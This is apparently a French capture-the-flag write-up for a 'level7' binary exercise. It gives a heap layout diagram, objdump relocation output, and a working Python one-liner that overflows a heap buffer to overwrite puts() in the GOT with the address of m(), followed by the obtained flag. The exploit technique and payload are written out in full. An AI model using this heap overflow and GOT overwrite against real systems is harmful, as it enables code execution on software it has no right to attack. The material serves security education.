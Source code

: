   ```
  ------------------------ 0x804b038 (&b[1], b[1][0]) --------------------
  ------------------------ 0x804b034 -------------------------------------
  ------------------------ 0x804b030 -------------------------------------
   BBBB
  ------------------------ 0x804b02c (b[1]) ------------------------------
   AAAA
  ------------------------ 0x804b028 (&b, b[0]) ---------------------------
   AAAA
  ------------------------ 0x804b024 --------------------------------------
   AAAA
  ------------------------ 0x804b020 --------------------------------------
   AAAA
  ------------------------ 0x804b01c --------------------------------------
   AAAA
  ------------------------ 0x804b018 (&a[1], a[1][0]) ---------------------
  ------------------------ 0x804b014 --------------------------------------
  ------------------------ 0x804b010 --------------------------------------
    0x804b018 (adresse du malloc de a[1])
  ------------------------ 0x804b00c (a[1]) -------------------------------
    1
  ------------------------ 0x804b008 (&a, a[0]) ---------------------------
  ```
Il va donc valloir construire un payload avec 20 random chars + l'adresse de puts() dans la GOT comme premier argument, et l'adresse de m() en second argument.

- `objdump -R level5`
  ```
  level7:     file format elf32-i386

  DYNAMIC RELOCATION RECORDS
  OFFSET   TYPE              VALUE
  08049904 R_386_GLOB_DAT    __gmon_start__
  08049914 R_386_JUMP_SLOT   printf
  08049918 R_386_JUMP_SLOT   fgets
  0804991c R_386_JUMP_SLOT   time
  08049920 R_386_JUMP_SLOT   strcpy
  08049924 R_386_JUMP_SLOT   malloc
  08049928 R_386_JUMP_SLOT   puts
  0804992c R_386_JUMP_SLOT   __gmon_start__
  08049930 R_386_JUMP_SLOT   __libc_start_main
  08049934 R_386_JUMP_SLOT   fopen
  ```
  - l'adresse de puts() dans la GOT est 0x8049928

On a vu dans l'analyse que l'adresse de m() est 0x080484f4.

Du coup en passant les adresses en little endian:
- `./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')`
  ```
  5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
   - 1664369431
  ```
